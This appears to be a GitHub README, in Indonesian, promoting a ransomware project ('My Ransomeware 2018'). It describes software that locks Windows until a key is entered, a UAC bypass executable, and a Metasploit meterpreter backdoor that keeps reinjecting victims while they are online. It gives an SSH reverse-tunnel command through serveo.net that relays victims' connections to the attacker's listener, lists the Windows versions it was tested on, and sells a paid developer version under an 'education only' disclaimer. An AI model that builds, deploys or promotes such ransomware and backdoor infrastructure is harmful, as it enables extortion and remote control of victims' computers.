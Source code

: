 # My Ransomeware 2018

[Catatan]

- Jalankan software pada virtual operating system yang berjalan pada VMWare atau virtualBox

- Jangan merubah nama folder [VirusUI] atau mengedit nama file pada folder tersebut jika anda menjalankan pada BypassWinSetup.exe untuk mendapatkan akses UAC.

[Alat yang digunakan]

- Windows sub system linux (WSL) - Kali Linux

- Metasploit

- SSH

- VMWare

[Cara Kerja Software]

- Windows akan terkunci dan anda tidak bisa melakukan apa2 karna system inti di nonaktifkan cara satu2nya anda harus unlock dengan memasukan encrypt key ke dalam software untuk kambali ke seperti semula

- Selama komputer victim terhubung ke internet, maka komputer victim akan terus tersuntikan meterpreter dengan komputer penyerang secara realtime


[Opendoor.exe]

- jika anda sudah memiliki pengetahuan tentang pembuatan file backdoor, anda bisa merubah reverse untuk meterpreter dengan menimpah file Opendoor.exe dengan backdoor buatan anda.


[SSH]

- Backdoor mendengarkan port 9998 dengan IP 159.89.214.31 dari seveo.net

- [cmd] -> ssh -R 9998:127.0.0.1:4444 darksite@serveo.net


[Tested Works]

- Windows 10 versi up

- windows 8

- windows 7

[Screenshoot]

![alt tag](https://github.com/webmestudio/myransomeware/blob/master/screenshoot/RS1.PNG)

![alt tag](https://github.com/webmestudio/myransomeware/blob/master/screenshoot/RS2.PNG)

![alt tag](https://github.com/webmestudio/myransomeware/blob/master/screenshoot/RS3.PNG)

![alt tag](https://github.com/webmestudio/myransomeware/blob/master/screenshoot/RS4.PNG)

[Tujuan]

- Ini untuk edukasi saja, jadi gunakan dengan bijak :D

- Jika anda menginginkan versi developer software ini, anda bisa hubungi saya dan tidak gratis. 

- Kasih saya donasi untuk kopi dan rokok :D

- [Remember] Saya bukan hacker ataupun cracker. hanya saja saya suka mengulik sesuatu.

- [MyBlog] https://webmestudio.blogspot.com
